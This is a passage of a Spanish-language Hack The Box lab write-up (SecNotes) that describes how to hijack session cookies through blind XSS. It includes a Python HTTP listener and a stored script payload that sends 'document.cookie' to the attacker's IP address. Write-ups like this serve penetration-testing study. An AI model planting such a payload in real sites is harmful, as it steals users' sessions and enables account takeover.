 ![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2022-02-28-SecNotes-Hack-The-Box/15.png)

Una vez comprobamos que tenemos la capacidad de visualizar nuestra propia cookie de sesión a través de ventanas emergentes (pop-ups), podemos empezar a esbozar una posible vía potencial para la intrusión.

Podemos intentar efectuar un `Cookie Hijacking`, ya que secuestrando la cookie de sesión de otro usuario, si este tiene su sesión abierta, podríamos 'logearnos' sin proporcionar credenciales, únicamente el valor de su cookie.

Adicionalmente, tenemos que pensar en una forma de obtener el valor de la cookie directamente en nuestro equipo de atacantes, ya que de momento, estas ventanas solo son visibles por los usuarios cuando están en su panel de inicio, además de que llaman bastante la atención. Para ello, haremos uso de un [Blind XSS](https://mateonitro550.github.io/https://mateonitro550.github.io/Cross-Site-Scripting-(XSS)).

Empezaremos por crear un servidor con `Python`, en el cual recibiremos las cookies de los usuarios cada que estos refresquen, o se encuentren en su panel de inicio.

```bash
sudo python3 -m http.server 80
```

A continuación, crearemos una nota con el siguiente mensaje:

```html
<script>document.write('<img src="http://nuestraDirecciónIP:80/cookie=' + document.cookie + '">')</script>
```

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2022-02-28-SecNotes-Hack-The-Box/16.png)
